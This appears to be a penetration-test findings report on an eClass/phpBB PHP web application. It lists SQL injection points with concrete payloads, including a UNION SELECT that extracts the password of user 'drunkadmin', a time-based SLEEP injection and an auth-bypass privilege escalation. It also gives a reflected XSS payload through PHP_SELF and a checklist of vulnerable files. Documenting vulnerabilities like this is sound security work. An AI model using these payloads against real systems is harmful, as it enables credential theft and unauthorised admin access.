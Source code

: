 # Security Rapport

## SQLi

### Tags
- Time-based -> T
- Boolean    -> B
- Union      -> U

### /modules/phpbb/
- `viewtopic.php`: ?topic=1&forum=1: topic param injectable: TBU
    -  **AND 12 = 13 ) UNION SELECT password, password FROM eclass.user WHERE username="drunkadmin" --+**

- `reply.php`: ?topic=1&forum=1: same as above.

- `newtopic.php`: ?subject=dasd&Dialog1=on&Dialog2=on&Dialog3=on&Dialog4=on&Dialog5=on&Dialog6=on&message=da&forum=1&submit=,
                    forum param injectable: TBU,
    - **subject=dasd&Dialog1=on&Dialog2=on&Dialog3=on&Dialog4=on&Dialog5=on&Dialog6=on&message=da&forum=-9196 UNION ALL SELECT CONCAT(0x7171767171,0x43586c6d6d437675427477685178697356526b754747774876676c514f4c616c454669716742744d,0x716b7a6271)-- -&submit=**

- `viewforum.php`:

### /modules/auth/
- `newprof.php`: nom_form=1&prenom_form=1&userphone=6505550100&uname=Smith"`true`"&email_form=skipfish@example.com&usercomment=skipfish&department=`1 AND (SELECT 9259 FROM (SELECT(SLEEP(5)))ipgP)`&proflang=1&submit=Submit&auth=1

- `opencourses.php`:

### /modules/dropbox/

### /modules/create_course

### /info_cours

### /modules/work

### /upgrade/
- `upgrade.php`: Auth bypass SQLi @ `login` param, horizontal privesc to admin,
                vulnerable function -> is_admin()::upgrade_functions.php


## XSS

### $_SERVER['PHP_SELF']

The site is tremendously vulnerable to XSS. By "trememndously" we mean that in every single location there is at least 1 XSS vector via `$_SERVER["PHP_SELF"]`. Because their is no sanitazation on this variable we can inject XSS payloads that get reflected in the site's source code onload. Payloads of the form `"><script> alert("DRAGONS")</script>` are a go. There are functions such as `lang_selections()`::baseTheme.php that carry this vuln with them, but also many other sites in the code that have the above mentioned functionality included.

### The rest

- [v] adminannouncements.php
- [v] edituser.php
[v] myagenda.php
[v] lostpass.php
[v] newprof.php
[v] newuserreq.php
[x] newuseradmin.php
[v] ldapnewuser.php
[x] ldapnewprofadmin.php
[v] messageList.php
[v] infocours.php
[v] dropbox_submit.php
[v] forum_admin.php
[v] create_course.php 
[v] profile.php
[v] editpost.php
[v] newtopic.php
[v] reply.php
[v] unregcours.php
[v] work.php
[v] adduser.php